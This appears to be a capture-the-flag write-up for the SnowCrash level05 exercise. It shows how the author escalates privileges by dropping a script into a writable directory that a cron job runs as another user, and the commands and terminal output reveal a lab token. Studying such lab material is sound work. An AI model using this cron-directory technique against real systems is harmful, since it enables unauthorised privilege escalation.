

# Flag05

Nothing in my home directory, but a previous recognition showed this:

The [task](https://www.freecodecamp.org/news/cron-jobs-in-linux) is supposed to run every two minutes and execute the script `/usr/sbin/opearenaserver` as user flag05.
```
level05@SnowCrash:/var/mail$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
level05@SnowCrash:/var/mail$
```
Each file in `/opt/openarenaserver` is executed in a [subshell](https://www.linuxtopia.org/online_books/advanced_bash_scripting_guide/subshells.html) in [debug mode](https://codedamn.com/news/linux/how-to-debug-bash-scripts) with the command `bash -x`, meaning that each script command is printed to the terminal before it is executed, before being removed. The [`ulimit`](https://www.it-connect.fr/ulimit-le-controleur-de-ressource-systeme) command with the `-t` flag is used to allocate a 5 second-period time to the execution.

However, the pointed folder is empty:
```
level05@SnowCrash:/var/mail$ ls -la /opt/openarenaserver
total 0
drwxrwxr-x+ 2 root root 40 Mar 11 10:28 .
drwxr-xr-x  1 root root 60 Mar 11 10:28 ..
level05@SnowCrash:/var/mail$
```
I can add there a script that I would like to see executed, as something like this:
```
#!/bin/sh

getflag > /var/tmp/level05_flag
```
I do this in `/var/tmp`:
```
level05@SnowCrash:/var/tmp$ cat lvl5
#!/bin/sh

getflag > /var/tmp/level05_flag
level05@SnowCrash:/var/tmp$ cp lvl5 /opt/openarenaserver
level05@SnowCrash:/var/tmp$ ls /opt/openarenaserver
lvl5
level05@SnowCrash:/var/tmp$
```
_Et voilà le travail!_
```
level05@SnowCrash:/var/tmp$ cat /var/tmp/level05_flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/var/tmp$ su level06
Password:
level06@SnowCrash:~$